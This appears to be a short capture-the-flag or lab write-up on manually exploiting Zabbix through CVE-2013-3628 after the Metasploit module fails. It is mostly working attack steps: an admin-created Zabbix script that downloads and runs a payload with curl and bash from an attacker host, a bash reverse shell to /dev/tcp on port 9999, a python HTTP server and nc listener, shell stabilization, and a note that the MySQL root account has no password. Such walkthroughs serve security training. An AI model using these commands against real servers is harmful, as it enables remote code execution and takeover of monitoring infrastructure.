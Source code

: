 # Let's found an exploitation for Zabbix !

A classic one is a CVE-2013-3628 but the MSF exploit doesn't work properly, We have to exploit this vulnerability manually.
Do to that go on "Administration" Tab (and find the app_flag) and create a new script.

# Setup the good script pattern :
"Scope = Manual host action"
"Type = Script"
"Execute on = zabbix server"

Script :
```
curl http://10.10.161.27:8080/rev -o /tmp/rev && bash /tmp/rev
```
And SAVE that new script !


# Create a reverse_shell script and start an HTTP server (using python http.server module) :
```
root@kali:/tmp# cat rev 
#!/bin/bash

/bin/bash -i >& /dev/tcp/10.10.161.27/9999 0>&1
root@kali:/tmp# python3 -m http.server 8080
Serving HTTP on 0.0.0.0 port 8080 (http://0.0.0.0:8080/) ...
```

# Start the listener on port 9999 :
```
nc -lnvp 9999
```


# Now we have to lunch it, 
to do that go on "Monitoring" tab, clic on the zabbix server and select the script created before. Result a reverse shell on the Zabbix Host.

# Stabilize the shell using script methode (python's not installed) :
```
/usr/bin/script -qc /bin/bash /dev/null
```

# The mysql user "root" don't have any password.
